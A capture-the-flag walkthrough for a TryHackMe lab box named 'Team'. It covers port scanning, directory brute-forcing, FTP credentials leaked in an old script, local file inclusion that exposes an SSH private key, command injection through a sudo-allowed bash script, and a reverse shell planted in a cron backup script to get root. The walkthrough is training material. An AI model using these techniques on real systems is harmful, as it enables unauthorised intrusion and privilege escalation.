


# [Team](https://tryhackme.com/room/teamcw)

First of all, `nmap`

```
# Nmap 7.91 scan initiated Mon Jul 19 06:33:33 2021 as: nmap -vvv -p 21,22,80 -sCV -oN init.nmap 10.10.192.187
Nmap scan report for box.ip (10.10.192.187)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-07-19 06:33:34 UTC for 16s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 19 06:33:50 2021 -- 1 IP address (1 host up) scanned in 16.48 seconds
```

Checking the page out port 80 and its source, we're told to add `team.thm` to our `/etc/hosts` ...



... so let's do that and run take another look.

Going to `/robots.txt`, we see a single name "dale" which is not the name of a directory/file so let's note this as a username.

Let's run `gobuster`.

```sh
$ gobuster dir -u 'http://team.thm/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php

/images               (Status: 200) [Size: 755]
/scripts              (Status: 403) [Size: 273]
/assets               (Status: 403) [Size: 273]
/server-status        (Status: 403) [Size: 273]
```

The `/scripts` and `/assets` sound interesting, so let's run `gobuster` on them.

```sh
$ gobuster dir -u 'http://team.thm/scripts/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

/script.txt           (Status: 200) [Size: 597]
```

Here we have the file `/scripts/script.txt`

```sh
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

The file tells us there's and *old version* of this script in the same folder. If you ran `gobuster` with the `-d` flag, it should have also got you this old file named `script.old`. Within this file are credentials which we can use to log into  FTP.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 .
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
-rw-r--r--    1 1002     1002          220 Apr 04  2018 .bash_logout
-rw-r--r--    1 1002     1002         3771 Apr 04  2018 .bashrc
drwxrwxr-x    3 1002     1002         4096 Jan 15  2021 .local
-rw-r--r--    1 1002     1002          807 Apr 04  2018 .profile
drwx------    2 1002     1002         4096 Jan 15  2021 .ssh
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 workshare

ftp> cd workshare
250 Directory successfully changed.

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 .
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
-rwxr-xr-x    1 1002     1002          269 Jan 15  2021 New_site.txt
226 Directory send OK.

ftp> get New_site.txt
```

We see a `.ssh` folder so I tried uploading my SSH key there to hopefully get an SSH shell but the directory is write-protected and so we can't write to it. The file "New_site.txt" though, holds an interesting message.

```
Dale
	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

We have another potential username "gyles", as well a `.dev` to check out. Going to `/dev` and `/.dev` return nothing, but adding `dev.team.thm` in `/etc/hosts` and going to the page gives us another site.



It points us to a page with local file inclusion. Replacing `teamshare.php` with `/etc/passwd` confirms this. Looking back at a previous message from the admins, we know that one or both of the users dale and gyles have an SSH key we can find and use, so let's try some known SSH files.

```
/home/dale/.ssh/id_rsa
/home/gyles/.ssh/id_rsa
/etc/ssh/sshd_config
```

We can find dale's private SSH key in the file `/etc/ssh/sshd_config`. We can grab the key from the comments at the bottom and SSH in.

```sh
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

A quick `sudo -l` shows us we can escalate to gyles using `/home/gyles/admin_checks`. The contents of that files is as follows:

```sh
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

Here we see that the variable `$error`can be used to run another program, which we'll enter `/bin/bash` to get a shell.

```
dale@TEAM:~$ sudo -u gyles  /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: a
Enter 'date' to timestamp the file: /bin/bash
The Date is l
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

With that, we have a shell as gyles. Looking at his home directory, we see a `.bash_history`.

```sh
gyles@TEAM:~$ cd /home/gyles/
gyles@TEAM:/home/gyles$ ls -la
total 48
drwxr-xr-x 6 gyles gyles   4096 Jan 17 19:47 .
drwxr-xr-x 5 root  root    4096 Jan 15  2021 ..
-rwxr--r-- 1 gyles editors  399 Jan 15  2021 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17 20:34 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15  2021 .cache
drwx------ 3 gyles gyles   4096 Jan 15  2021 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15  2021 .local
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan 15  2021 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17  2021 .sudo_as_admin_successful
```

Checking it, we see an interesting file: `/usr/local/bin/main_backup.sh`. Since this this a backup script, and we see `crontab` being run in the history, it's safe to assume this file is run periodically as a cron job, so let's put in it a reverse shell and see what happens.

After some time, we get a reverse shell as root! That's it for this box.
